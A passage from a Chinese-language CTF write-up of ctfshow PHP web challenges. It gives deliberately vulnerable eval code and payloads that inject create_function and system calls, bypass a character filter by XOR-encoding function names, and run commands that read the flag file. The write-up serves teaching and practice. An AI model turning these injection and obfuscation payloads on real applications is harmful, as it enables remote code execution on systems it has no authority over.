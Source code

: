 > php里默认命名空间是\，所有原生函数和类都在这个命名空间中。 普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径； 而如果写\function_name()这样调用函数，则其实是写了一个绝对路径。 如果你在其他namespace里调用系统类，就必须写绝对路径这种写法

```
show=;};system('cat flag.php');//
ctf=%5ccreate_function
```

## web148(利用xor)

```php
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/",$code)){
        die("error");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

function get_ctfshow_fl0g(){
    echo file_get_contents("flag.php");
}
```



payload:

```
没有过滤异或
code=("%08%02%08%09%05%0d"^"%7b%7b%7b%7d%60%60")("%09%01%03%01%06%02"^"%7d%60%60%21%60%28");
预期解
code=$哈="`{{{"^"?<>/";${$哈}[哼](${$哈}[嗯]);&哼=system&嗯=tac f*
```

## web149(条件竞争)

```php
<?php
$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}

file_put_contents($_GET['ctf'], $_POST['show']);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
```
